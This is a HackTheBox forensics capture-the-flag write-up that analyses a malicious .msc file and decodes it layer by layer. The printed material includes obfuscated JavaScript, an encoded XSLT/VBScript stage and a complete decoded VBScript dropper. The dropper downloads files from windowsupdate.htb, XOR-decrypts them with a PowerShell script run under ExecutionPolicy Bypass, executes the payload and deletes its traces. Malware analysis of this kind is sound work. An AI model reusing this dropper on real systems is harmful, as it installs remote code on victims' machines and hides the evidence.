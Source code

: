 ```yaml
---
title: 'Binary Badresources'
issuer: 'HackTheBox'
status: 'Completed'
category: 'Forensics'
difficulty: 'Medium'
date: '2025-07-19'
badge: null
certificateLink: null
tags: ['office documents', 'javascript', 'c#', 'vbs', 'malware-analysis']
---
```


## Description

![alt text](../../assets/images/HTB/Binary-Badresources/image.png)

## Thought process

### Document analysis

Extracting the archive gives us a `.msc` file. A quick Google search revealed what kind of file I was dealing with.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy.png>)

Running `strings` on the file revealed something odd embedded within it.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 2.png>)

The file contains heavily obfuscated JavaScript. I used `https://obf-io.deobfuscate.io/` for deobfuscation, and this is the result:

```javascript
var scopeNamespace = external.Document.ScopeNamespace;
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
external.Document.ActiveView.ActiveScopeNode = mainNode;
docObject.async = false;
docObject.loadXML(unescape("%3C%3Fxml%20version%3D%271%2E0%27%3F%3E%0D%0A%3Cstylesheet%0D%0A%20%20%20%20xmlns%3D%22http%3A%2F%2Fwww%2Ew3%2Eorg%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas%2Dmicrosoft%2Dcom%3Axslt%22%0D%0A%20%20%20%20xmlns%3Auser%3D%22placeholder%22%0D%0A%20%20%20%20version%3D%221%2E0%22%3E%0D%0A%20%20%20%20%3Coutput%20method%3D%22text%22%2F%3E%0D%0A%20%20%20%20%3Cms%3Ascript%20implements%2Dprefix%3D%22user%22%20language%3D%22VBScript%22%3E%0D%0A%20%20%20%20%3C%21%5BCDATA%5B%0D%0ATpHCM%20%3D%20%22%22%3Afor%20i%20%3D%201%20to%203222%3A%20TpHCM%20%3D%20TpHCM%20%2B%20chr%28Asc%28mid%28%22Stxmsr%24I%7Ctpmgmx%0EHmq%24sfnWlipp0%24sfnJWS0%24sfnLXXT%0EHmq%24wxvYVP50%24wxvYVP60%24wxvYVP70%24wxvWls%7BjmpiYVP%0EHmq%24wxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl60%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%0EHmq%24wxvI%7CigyxefpiTexl0%24wxvTs%7BivWlippWgvmtx%0EwxvYVP5%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci%26%0EwxvYVP6%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2hpp%26%0EwxvYVP7%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiYVP%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3%7Berxih2thj%26%0EwxvHs%7BrpsehTexl5%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EwxvHs%7BrpsehTexl6%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EwxvHs%7BrpsehTexl7%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60%7Berxih2thj%26%0EwxvI%7CigyxefpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0E%0EWix%24sfnWlipp%24A%24GviexiSfnigx%2C%26%5BWgvmtx2Wlipp%26%2D%0EWix%24sfnJWS%24A%24GviexiSfnigx%2C%26Wgvmtxmrk2JmpiW%7DwxiqSfnigx%26%2D%0EWix%24sfnLXXT%24A%24GviexiSfnigx%2C%26QW%5CQP62%5CQPLXXT%26%2D%0E%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl5%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP50%24wxvHs%7BrpsehTexl5%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl6%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP60%24wxvHs%7BrpsehTexl6%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl7%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP70%24wxvHs%7BrpsehTexl7%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvWls%7BjmpiTexl%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvWls%7BjmpiYVP0%24wxvWls%7BjmpiTexl%0EIrh%24Mj%0E%0EwxvTs%7BivWlippWgvmtx%24A%24c%0E%26teveq%24%2C%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28JmpiTexl0%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28Oi%7DTexl%26%24%2A%24zfGvPj%24%2A%24c%0E%26%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7D%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28Oi%7DTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28jmpiGsrxirx%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28JmpiTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7DPirkxl%24A%24%28oi%7D2Pirkxl%26%24%2A%24zfGvPj%24%2A%24c%0E%26jsv%24%2C%28m%24A%244%3F%24%28m%241px%24%28jmpiGsrxirx2Pirkxl%3F%24%28m%2F%2F%2D%24%7F%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%28jmpiGsrxirx%5F%28ma%24A%24%28jmpiGsrxirx%5F%28ma%241f%7Csv%24%28oi%7D%5F%28m%24%29%24%28oi%7DPirkxla%26%24%2A%24zfGvPj%24%2A%24c%0E%26%C2%81%26%24%2A%24zfGvPj%24%2A%24c%0E%26%5FW%7Dwxiq2MS2Jmpia%3E%3E%5BvmxiEppF%7Dxiw%2C%28JmpiTexl0%24%28jmpiGsrxirx%2D%26%24%2A%24zfGvPj%0E%0EHmq%24sfnJmpi%0ESr%24Ivvsv%24Viwyqi%24Ri%7Cx%0EWix%24sfnJmpi%24A%24sfnJWS2GviexiXi%7CxJmpi%2C%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%260%24Xvyi%2D%0EMj%24Ivv2Ryqfiv%24%40B%244%24Xlir%0E%24%24%24%24%5BWgvmtx2Igls%24%26Ivvsv%24gviexmrk%24Ts%7BivWlipp%24wgvmtx%24jmpi%3E%24%26%24%2A%24Ivv2Hiwgvmtxmsr%0E%24%24%24%24%5BWgvmtx2Uymx%0EIrh%24Mj%0EsfnJmpi2%5BvmxiPmri%24wxvTs%7BivWlippWgvmtx%0EsfnJmpi2Gpswi%0E%0EHmq%24evvJmpiTexlw%0EevvJmpiTexlw%24A%24Evve%7D%2CwxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%2D%0E%0EHmq%24m%0EJsv%24m%24A%244%24Xs%24YFsyrh%2CevvJmpiTexlw%2D%0E%24%24%24%24Hmq%24mrxVixyvrGshi%0E%24%24%24%24mrxVixyvrGshi%24A%24sfnWlipp2Vyr%2C%26ts%7Bivwlipp%241I%7CigyxmsrTspmg%7D%24F%7Dteww%241Jmpi%24G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%241JmpiTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24Glv%2C78%2D%24%2A%24%26%241Oi%7DTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24wxvHs%7BrpsehTexl6%24%2A%24Glv%2C78%2D0%2440%24Xvyi%2D%0E%24%24%24%24%0E%24%24%24%24Mj%24mrxVixyvrGshi%24%40B%244%24Xlir%0E%24%24%24%24%24%24%24%24%5BWgvmtx2Igls%24%26Ts%7BivWlipp%24wgvmtx%24i%7Cigyxmsr%24jempih%24jsv%24%26%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24%26%24%7Bmxl%24i%7Cmx%24gshi%3E%24%26%24%2A%24mrxVixyvrGshi%0E%24%24%24%24Irh%24Mj%0ERi%7Cx%0E%0EsfnWlipp2Vyr%24wxvI%7CigyxefpiTexl0%2450%24Xvyi%0EsfnWlipp2Vyr%24wxvWls%7BjmpiTexl0%2450%24Xvyi%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%26%0E%0EWyf%24Hs%7BrpsehJmpi%2Cyvp0%24texl%2D%0E%24%24%24%24Hmq%24sfnWxvieq%0E%24%24%24%24Wix%24sfnWxvieq%24A%24GviexiSfnigx%2C%26EHSHF2Wxvieq%26%2D%0E%24%24%24%24sfnLXXT2Stir%24%26KIX%260%24yvp0%24Jepwi%0E%24%24%24%24sfnLXXT2Wirh%0E%24%24%24%24Mj%24sfnLXXT2Wxexyw%24A%24644%24Xlir%0E%24%24%24%24%24%24%24%24sfnWxvieq2Stir%0E%24%24%24%24%24%24%24%24sfnWxvieq2X%7Dti%24A%245%0E%24%24%24%24%24%24%24%24sfnWxvieq2%5Bvmxi%24sfnLXXT2ViwtsrwiFsh%7D%0E%24%24%24%24%24%24%24%24sfnWxvieq2WeziXsJmpi%24texl0%246%0E%24%24%24%24%24%24%24%24sfnWxvieq2Gpswi%0E%24%24%24%24Irh%24Mj%0E%24%24%24%24Wix%24sfnWxvieq%24A%24Rsxlmrk%0EIrh%24Wyf%0E%22%2Ci%2C1%29%29%20%2D%20%285%29%20%2B%20%281%29%29%3ANext%3AExecute%20TpHCM%3A%0D%0A%20%20%20%20%5D%5D%3E%0D%0A%20%20%20%20%3C%2Fms%3Ascript%3E%0D%0A%3C%2Fstylesheet%3E"));
docObject.transformNode(docObject);
```

### Analyzing the encoded blob

At the end of the deobfuscated script, there's a peculiar blob of data that warrants closer inspection. I use the `URL Decode` function on CyberChef to pretty it

```vbscript
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```

The script uses a simple Caesar cipher (subtracting 4 from each character's ASCII value) to hide a VBScript payload. After decoding by adding 4 to each character, the payload reveals:

```vbscript
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
    
    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub

```

**What the malware does:**
1. Downloads malicious files from `http://windowsupdate.htb/` (csrss.exe, csrss.dll, csrss.exe.config, wanted.pdf)
2. Saves them to `C:\Users\Public\` disguised as legitimate Windows system files
3. Executes PowerShell scripts with execution policy bypass
4. Cleans up temporary files to hide traces

### Malicious files analysis

I downloaded all the files to investigate further. I decoded all the files using `csrss.dll` and noticed a link to a `.json` file.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 5.png>)

I downloaded the file to examine its contents and discovered that it was an executable.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 6.png>)

I used `dnSpy` to decompile the executable and found a URL decryptor using Base64 and AES CBC.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 7.png>)

The function takes the Base64 string from the code, decodes it to raw bytes, and uses AES CBC with a hardcoded key and IV. The key and IV are at the end of the code.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 8.png>)

I then used CyberChef to decrypt the URL in the code.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 9.png>)

I downloaded the file and got the flag.

![alt text](<../../assets/images/HTB/Binary-Badresources/image copy 4.png>)
